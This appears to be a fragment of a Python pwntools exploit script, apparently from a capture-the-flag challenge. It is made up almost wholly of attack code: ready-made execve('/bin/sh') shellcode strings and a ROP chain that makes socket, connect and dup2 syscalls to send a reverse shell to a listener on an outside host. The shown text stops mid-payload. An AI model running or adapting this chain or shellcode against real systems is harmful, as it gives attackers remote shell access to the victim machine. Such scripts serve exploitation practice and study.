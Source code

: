 ```python
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------

"""
0x000000000040136f : pop rax ; ret
0x00000000004011dd : pop rbp ; ret
0x000000000040136b : pop rdi ; ret
0x0000000000401369 : pop rdx ; ret
0x000000000040136d : pop rsi ; ret
"""
syscall_ret = 0x0000000000401351
pop_rdi = 0x0000000000401356
pop_rsi = 0x0000000000401358
pop_rdx = 0x0000000000401354
pop_rax = 0x000000000040135a
pop_rcx = 0x000000000040135d
# 这2个gadget题目给的,主要作用就是把rax给rdi
push_rax_pop_rcx = 0x000000000040135c#push rax ; pop rcx ; ret
mov_rdi_rcx = 0x000000000040135f # mov rdi rcx;ret


#socket(AF_INET, SOCK_STREAM, IPPROTO_IP)
payload = "a"*0x10
payload += p64(pop_rdi)
payload += p64(2)# AF_INET
payload += p64(pop_rsi)
payload += p64(1)# SOCK_STREAM
payload += p64(pop_rdx)
payload += p64(0)# IPPROTO_IP
payload += p64(pop_rax)
payload += p64(0x29)
payload += p64(syscall_ret)
#connect(soc, (struct sockaddr *)&serv_addr, sizeof(struct sockaddr_in))
payload += p64(pop_rdi)
payload += p64(0)
payload += p64(pop_rsi)
payload += p64(0x4038e0)# [ip:socat]_addr
payload += p64(pop_rdx)
payload += p64(16)
payload += p64(pop_rax)
payload += p64(42)
payload += p64(syscall_ret)
# #dup2(soc, 0)# 这里可省略这一步
# payload += p64(pop_rdi)
# payload += p64(0)
# payload += p64(pop_rsi)
# payload += p64(0)
# payload += p64(pop_rax)
# payload += p64(33)
# payload += p64(syscall_ret)
#dup2(soc, 1)
payload += p64(pop_rdi)
payload += p64(0)
```